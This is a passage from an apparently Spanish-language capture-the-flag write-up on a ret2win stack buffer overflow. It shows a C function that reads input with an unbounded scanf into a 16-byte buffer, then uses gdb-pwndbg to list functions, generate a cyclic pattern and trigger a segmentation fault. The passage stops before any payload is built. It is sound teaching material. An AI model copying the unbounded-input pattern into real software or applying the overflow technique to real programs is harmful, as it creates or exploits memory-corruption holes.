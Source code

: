 Si vemos el código (puedes también descompilarlo con [[ghidra]]):

```c
void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);    
}
```

Vemos que se llama a la función `register_name()` que tiene una variable `buffer` y que se rellena con `scanf()`. También como apuntamos antes, hay una función `hacked()` a la que nunca se llama.

Parece ser que el *segmentation fault* puede ser debido a que `scanf` introduce más carácteres de los que permite *buffer*, probablemente sobreescribiendo la dirección de retorno de la función.

#### Explotación

Como vemos, al iniciar el programa, `main()` llama a `register_name()`, que pide un nombre, lo imprime y regresa. Sin embargo, podríamos tratar de sobreescribir la dirección de retorno de forma que `register_name()` no vuelva a name, sino que por ejemplo vuelva a `hacked()`.

Vamos a comenzar abriendo [[gdb]]-[[pwndbg]]:

```bash
gdb-pwndg ret2win
```

Podemos ver las unciones con:

```gdb
info functions
```
```gdb
[...]
0x08049182  hacked
0x080491ad  register_name
0x08049203  main
[...]
```

Ahora debemos ver a partir de que número de carácteres se empieza a sobreescribir la *return address*. Para ello, el propio plugin ([[pwndbg]]) incorpora una función interesante:

```gdb
cyclic 100
```
```gdb
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Esto nos genera una secuencia de 100 carácteres en los que cada cuatro *a*, se intercala una letra. De esta forma podemos identificar cuándo se sobreescribe la *return address*.

```gdb
run
```
```ret2win
Name:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Hi there, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
```
